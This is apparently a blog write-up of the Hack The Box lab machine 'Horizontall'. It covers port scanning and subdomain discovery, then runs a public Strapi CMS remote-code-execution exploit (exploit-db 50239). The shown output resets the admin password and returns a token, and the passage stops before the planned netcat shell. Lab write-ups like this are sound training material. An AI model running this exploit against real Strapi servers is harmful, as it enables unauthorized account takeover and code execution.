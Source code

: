 based on nmap resul we have 2 open ports
> 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)

> 80/tcp open  http    nginx 1.14.0 (Ubuntu)

add horizontall.htb to /etc/hosts to the ip of machine

lets discover site 

![](https://raw.githubusercontent.com/H3X0S3/h3x0s3.github.io/main/assets/img/hackthebox/Horizontall/1.png)

- there is noting impartant
- lets view the source code of the page ( CTRL + U )

![](https://raw.githubusercontent.com/H3X0S3/h3x0s3.github.io/main/assets/img/hackthebox/Horizontall/2.png)

open app.c68eb462.js to see the code

![](https://raw.githubusercontent.com/H3X0S3/h3x0s3.github.io/main/assets/img/hackthebox/Horizontall/3.png)

there is a url **http://api-prod.horizontall.htb/** 

with that 

**/reviews **  

endpoint so there is subdomain called 

> http://api-prod.horizontall.htb/

- check the subdomain

![](https://raw.githubusercontent.com/H3X0S3/h3x0s3.github.io/main/assets/img/hackthebox/Horizontall/4.png)

using wappalyzer addon it is Strapi CMS, so we need to fine the version of CMS to check if there any CVE
- after some directory brute force we get CMS verion

![](https://raw.githubusercontent.com/H3X0S3/h3x0s3.github.io/main/assets/img/hackthebox/Horizontall/5.png)

# Get Shell using CVE

go to exploitdb to seacrh for any cve we got

**https://www.exploit-db.com/exploits/50239**

- Remote Code Execution (RCE) (Unauthenticated) 

``` bash 
┌──(root💀H3X0S3)-[/home/…/Desktop/Labs/HTB/Horizontall]
└─# python3 exploit.py http://api-prod.horizontall.htb/
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQ0MDczMTUwLCJleHAiOjE2NDY2NjUxNTB9.eRyNqdAGMghLUXHXFzu9JAEOtZyKalzW6580CgvvYvA


$> 
```
we get a shell but it's blind RCE to try to get a nc shell
